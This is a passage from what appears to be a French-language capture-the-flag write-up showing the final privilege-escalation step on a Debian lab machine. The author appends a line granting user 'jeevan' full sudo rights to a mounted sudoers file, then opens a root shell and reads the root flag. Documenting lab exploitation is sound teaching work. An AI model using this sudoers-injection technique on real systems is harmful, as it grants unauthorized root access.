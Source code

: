 ```plain
# User alias specification 

# Cmnd alias specification 

# User privilege specification 
root    ALL=(ALL:ALL) ALL 

# Allow members of group sudo to execute any command 

# See sudoers(5) for more information on "#include" directives: 

#includedir /etc/sudoers.d 
/mnt/etc # echo "jeevan ALL=(ALL) ALL" >> sudoers 
```

Avec cette ligne ajoutée au fichier *sudoers* je peux obtenir un shell root :  

```plain
jeevan@debian:/$ sudo su 
[sudo] password for jeevan:  
root@debian:/# id 
uid=0(root) gid=0(root) groups=0(root) 
root@debian:/# cd /root 
root@debian:~# ls 
bitnami  bitnami_credentials  jeevan  root.txt 
root@debian:~# cat root.txt  

                    _       _                 _                              _     
 __ __ __  ___     | |     | |      o O O  __| |    ___    _ _      ___     | |    
 \ V  V / / -_)    | |     | |     o      / _` |   / _ \  | ' \    / -_)    |_|    
  \_/\_/  \___|   _|_|_   _|_|_   TS__[O] \__,_|   \___/  |_||_|   \___|   _(_)_   
_|"""""|_|"""""|_|"""""|_|"""""| {======|_|"""""|_|"""""|_|"""""|_|"""""|_| """ |  
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'./o--000'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

```


*Published February 04 2022 at 12:03*